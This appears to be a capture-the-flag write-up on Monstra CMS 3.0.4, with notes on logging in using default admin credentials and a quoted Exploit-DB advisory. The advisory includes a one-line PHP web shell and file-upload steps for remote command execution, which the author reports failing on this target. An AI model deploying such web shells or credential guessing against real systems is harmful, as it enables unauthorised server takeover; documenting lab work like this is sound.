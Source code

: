 # 15 - Monstra



# Monstra 3.0.4
![](vx_images/2804097859642.png)


# Searchsploit
![](vx_images/5726330911238.png)


# Admin page

![](vx_images/5963628546284.png)

# Default credentials
I tried some default usernames and passwords, `admin=admin` for example and it surprisingly worked.


![](vx_images/1562730092762.png)


# Admin Page (Authenticated)
![](vx_images/3116979907106.png)


# Exploit


```
Exploit Title: Monstra CMS - 3.0.4 RCE
Vendor Homepage: http://monstra.org/
Software Link:
https://bitbucket.org/Awilum/monstra/downloads/monstra-3.0.4.zip
Discovered by: Ishaq Mohammed
Contact: https://twitter.com/security_prince
Website: https://about.me/security-prince
Category: webapps
Platform: PHP
Advisory Link: https://blogs.securiteam.com/index.php/archives/3559

Description:

MonstraCMS 3.0.4 allows users to upload arbitrary files which leads to a
remote command execution on the remote server.
```


# PoC 
```bash
Proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

# File upload is broken
![](vx_images/2413010777292.png)

I couldn't upload any file on this server, txt, PHP, php7 tried everything. So our exploit won't work on this service.